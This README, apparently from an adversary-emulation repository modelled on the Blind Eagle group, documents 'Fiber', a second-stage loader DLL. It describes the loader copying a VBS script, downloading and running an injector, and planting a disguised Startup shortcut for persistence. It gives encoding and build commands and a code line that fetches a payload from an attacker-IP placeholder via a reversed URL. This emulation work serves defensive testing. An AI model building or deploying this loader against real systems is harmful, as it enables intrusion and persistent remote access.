 # Fiber DLL

## Overview

Fiber is a second stage loader that Blind Eagle has used in operations<sup>[1](https://blogs.blackberry.com/en/2023/02/blind-eagle-apt-c-36-targets-colombia),[2](https://lab52.io/blog/apt-c-36-from-njrat-to-apt-c-36/)</sup>. Fiber has three functions that it performs:

1) Copies the VBS loader to `C:\Windows\Temp` and renames it `OneDrive.vbs`

2) Downloads and executes the injector fsociety.dll

3) Establishes userland persistence by creating an `lnk` file in the users Startup folder posing as notepad.exe

The VAI method of `fiber.dll` takes one argument, a URL. The URL is typically passed in obfuscated form from the first stage loader to fiber.dll. fiber.dll will unreverse the URL and replace junk characters with ones to form a proper URL. On the other end of the URL is the AsyncRAT payload (asy.txt).

## Usage

`fiber.dll` first needs to be encoded in base64. `file-ops.py` has a function for this and can be used as follows:

Windows:

```PowerShell
py.exe ./file-ops.py -b path\to\repo\birdsofprey\Resources\fiber\fiber\bin\Release\fiber.dll
```

Linux/Mac:

```bash
python3 ./file-ops.py -b path/to/repobirdsofprey/Resources/fiber/fiber/bin/Release/fiber.dll
```

The URL on line 55 will also need to be updated prior to build with the IP address of the attacker server:

```
55               }.DownloadString(Strings.StrReverse("slx.pmuR/pmuR/<reverse-attacker-ip>//:ptth")); // http://<attacker-ip>/Rump/Rump.xls
```

## Build

Two build options are presented. The CLI can be used with devenv.exe to build the `fiber.sln` solution. Also instructions for the Visual Studio GUI are also included:

### CLI

```PowerShell
PS C:\<path>\<to>\birdsofprey\Resources\fiber> 'C:\Program Files | [x86]\Microsoft Visual Studio\<version>\<Professional|blank>\Common7\IDE\devenv.exe' fiber.sln /Build "Release"
```

### GUI

1) Open Solution in Visual Studio - this option is presented upon Visual Studio opening

    ![open](../../Screenshots/open-solution.png)

    ![fiber-sln](../../Screenshots/fiber-sln.png)

2) In the menu bar near the top of the window, change the dropdown from Debug to Release - this will build and remove any debugging assistance from the project:

    ![debug->release](../../Screenshots/asyncrat-vs-build-release.png)

3) In the menu bar at the top of the window, select Build -> Build Solution. The completed executables will be located in `birdsofprey\Resources\fiber\bin\Release`

    ![build](../../Screenshots/asyncrat-vs-build-solution.png)

## Cleanup

1) delete `OneDrive.vbs` from `C:\Windows\Temp`

2) delete `notepad.lnk` from `%APPDATA%\Microsoft\Windows\Start Menu\Programs\Startup`

## References and CTI

1) <https://blogs.blackberry.com/en/2023/02/blind-eagle-apt-c-36-targets-colombia>

2) <https://lab52.io/blog/apt-c-36-from-njrat-to-apt-c-36/>
